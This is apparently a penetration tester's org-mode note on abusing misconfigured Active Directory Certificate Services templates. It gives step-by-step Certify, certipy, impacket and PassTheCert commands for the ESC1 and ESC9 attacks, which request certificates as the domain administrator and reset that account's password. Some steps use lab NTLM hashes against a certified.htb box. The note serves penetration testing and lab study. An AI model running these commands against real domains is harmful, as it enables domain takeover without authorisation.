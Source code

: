 :PROPERTIES:
:ID:       88668f82-ad94-481f-9466-de6691494de2
:END:
#+title: Pentest - Active Directory - Certificate Services
#+filetags: :cert:activeDirectory:pentest:
#+hugo_base_dir:../


* Active Directory Certificate Services
[[https://social.technet.microsoft.com/wiki/contents/articles/3063.certutil-examples-for-managing-active-directory-certificate-services-ad-cs-from-the-command-line.aspx][social.technet.microsoft.com]]

Active Directory Certificate Services (AD CS) is an Active Directory server role which allows users to build PKI (Public Key Infrastructure). This can provide practical solutions for VPN access, SSL/TLS certificates and smart card logons, amongst other similar ubiquitous technologies you are likely to encounter on a daily basis. [[https://medium.com/@shaunwhorton/active-directory-certificate-services-domain-dominance-9ba2c54988d7][medium - shaun whorton]]




* Abusing misconfigured certificate templates

Use =Certify.exe= to enumerate Certificate Services [[https://github.com/GhostPack/Certify][GhostPack/Certify]]

#+begin_src sh
PS C:\ > .\Certify.exe find /vulnerable
#+end_src

#+ATTR_ORG: :width 1200
[[../static/images/certify1.png]]


Here's an example of a vulnerable cert template, which is used for client authentication.  Domain Users have enrollments rights, and they're also permitted to supply the subject (msPKI-Certificate-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT)

#+ATTR_ORG: :width 1200
[[../static/images/certify2.png]]

** Python
[[https://github.com/ly4k/Certipy]]



[[https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf][specterops - certified pre-owned]]
* Examples
** ESC1 vulnerability

#+ATTR_ORG: :width 1200
[[../static/images/certify3.png]]

- Client Authentication: True - an issued certificate can be used for client authentication purposes.

- Enrollee Supplies Subject : True - a Subject Alternative Name can be specified which allows a certificate to be requested as another user on the system (e.g., administrator).

- Requires Manager Approval : False - a requested certificate doesn't require approval from a user with certificate manager permissions.

- Enrollment Rights : Domain\Domain Computers - this gives low-level users the ability to request a certificate by simply joining a computer to the domain.


User happens to be able to join machines to the domain -- from *whoami /priv*

  #+begin_src sh
  Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
#+end_src

Use impacket to join a computer to the domain:

#+begin_src sh
addcomputer.py 'domain/<user>:<pw>' -method LDAPS -computer-name 'PC01' -computer-pass 'Welcome123'
#+end_src

Use _certipy_ to request cert for admin
#+begin_src sh
certipy req -username 'PC01$' -password 'Welcome123' -ca AUTHORITY-CA -target <ip> -template '' -upn 'administrator@domain'
#+end_src

Can try to auth

#+begin_src sh
certipy auth -pfx administrator.pfx
#+end_src

In this case there's a kerberos session error -> authenticate with LDAP instead of kerberos.  Use [[https://github.com/AlmondOffSec/PassTheCert?source=post_page-----8d6bbd770266--------------------------------][PassTheCert]] -- first convert
#+begin_src sh
certipy cert -pfx administrator.pfx -nokey -out user.crt
#+end_src
#+begin_src sh
certipy cert -pfx administrator.pfx -nocert -out user.key
#+end_src

Then, eg, change the admin password:
#+begin_src sh
python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain <domain> -dc-ip <ip> -target administrator -new-pass
#+end_src

** Using =netexec=
Enumerate services
#+begin_src shell -n
nxc ldap certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584 -M adcs
#+end_src
Determine vulnerabilities
#+begin_src shell -n
certipy find -u ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -vulnerable -stdout
#+end_src

*** ESC9
Can modify the UPN of users.
#+begin_src shell -n
certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
#+end_src

Then request a certificate
#+begin_src shell -n :exports both :results output verbatim :tangle file
certipy-ad req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template
CertifiedAuthentication -debug
#+end_src

And change the UPN back:
#+begin_src shell -n
certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb
#+end_src
[[https://z4ksec.github.io/posts/masky-release-v0.0.3/][masky]]
